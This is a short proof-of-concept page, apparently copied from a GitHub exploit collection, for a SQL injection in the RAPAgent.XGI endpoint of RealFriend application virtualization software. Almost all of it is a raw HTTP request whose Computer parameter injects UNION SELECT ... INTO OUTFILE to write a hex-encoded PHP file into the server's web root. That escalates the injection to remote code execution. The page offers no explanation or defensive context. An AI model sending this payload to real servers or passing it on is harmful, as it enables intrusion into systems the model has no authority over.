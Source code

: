 # ryty_sqli_to_rce

from : https://github.com/wy876/POC/blob/main/%E7%91%9E%E5%8F%8B%E5%BA%94%E7%94%A8%E8%99%9A%E6%8B%9F%E5%8C%96%E7%B3%BB%E7%BB%9F-RAPAgent%E5%AD%98%E5%9C%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md

2024.3.25 @2
```
/RAPAgent.XGI?CMD=GETApplication&AppID=APP00000001&Language=ZH-CN&User=admin&PWD=e10adc3949ba59abbe56e057f20f883e&AuthType=0&Computer=WIN-1TLJMBOFIT6%27%20union%20select%200x3c3f70687020706870696e666f28293b203f3e,2%20INTO%20OUTFILE%20%27C:/Program+Files+(x86)/RealFriend/Rap+Server/WebRoot/custom/InfoPage1.files/poctest.php%27--%20-&Finger=A45A2E5E3&IP= HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=53aiv0f86qi8v2v0ncfeg110f3; CookieLanguageName=ZH-CN
Connection: close
```
